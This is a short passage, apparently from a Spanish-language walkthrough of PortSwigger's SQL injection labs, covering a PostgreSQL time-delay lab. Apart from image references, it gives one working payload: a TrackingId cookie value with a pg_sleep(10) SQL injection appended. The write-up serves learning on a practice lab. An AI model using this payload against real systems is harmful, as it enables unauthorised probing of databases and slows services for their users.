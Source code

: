 <img src="/img/articulos/sqli-portswigger/51.png" alt="">

* **Explotación**

En este caso se está empleando PostgreSQL. Solo piden que la web tarde 10 segundos en responder

<img src="/img/articulos/sqli-portswigger/52.png" alt="">

```null
Cookie: TrackingId=Usj9qPoVOZv48tQ4'||pg_sleep(10)--+-
```
